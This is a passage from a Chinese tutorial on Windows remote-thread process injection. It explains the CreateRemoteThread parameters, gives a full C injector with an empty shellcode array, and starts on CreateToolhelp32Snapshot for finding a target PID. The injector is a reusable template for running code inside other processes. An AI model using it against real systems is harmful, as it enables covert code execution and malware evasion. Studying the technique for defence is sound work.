 - hProcess：将在其中创建线程的进程的句柄
- lpThreadAttributes：一个指向 [**SECURITY\_ATTRIBUTES**](https://baike.baidu.com/item/SECURITY_ATTRIBUTES) 结构的指针, 该结构指定了线程的安全属性.
- dwStackSize：[线程](https://baike.baidu.com/item/%E7%BA%BF%E7%A8%8B/103101)栈初始大小,以字节为单位,如果该值设为0,那么使用系统默认大小.
- lpStartAddress：在远程进程的[地址空间](https://baike.baidu.com/item/%E5%9C%B0%E5%9D%80%E7%A9%BA%E9%97%B4/1423980)中,该线程的线程函数的起始地址.
- lpParameter：指向要传递给线程函数的变量的指针。
- dwCreationFlags：线程的创建标志.
- lpThreadId：指向所创建线程ID的指针，如果该参数为空，则不返回线程标识符

```php
remoteThread = CreateRemoteThread(processHandle, NULL, 0,
(LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
```

**接下来是完整的代码**

```php
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = {};

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;

    printf("Injecting to PID: %i", atoi(argv[1]));
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  //打开进程
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode,
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  //申请内存
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
  //写入内存
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, 
  (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
  //创建远程线程
    CloseHandle(processHandle);
    return 0;
}
```

**看到这里相信各位也想到了一个问题,如果我想要远程注入notepad,如何获取到他的PID呢?**

**那就得使用到我们之前所说的CreateToolhelp32Snapshot**

**我们接着学习三个windowsAPI**

**1、CreateToolhelp32Snapshot：可以获取系统中正在运行的进程信息，线程信息**

```php
HANDLE CreateToolhelp32Snapshot(
  [in] DWORD dwFlags,
  [in] DWORD th32ProcessID
);
```
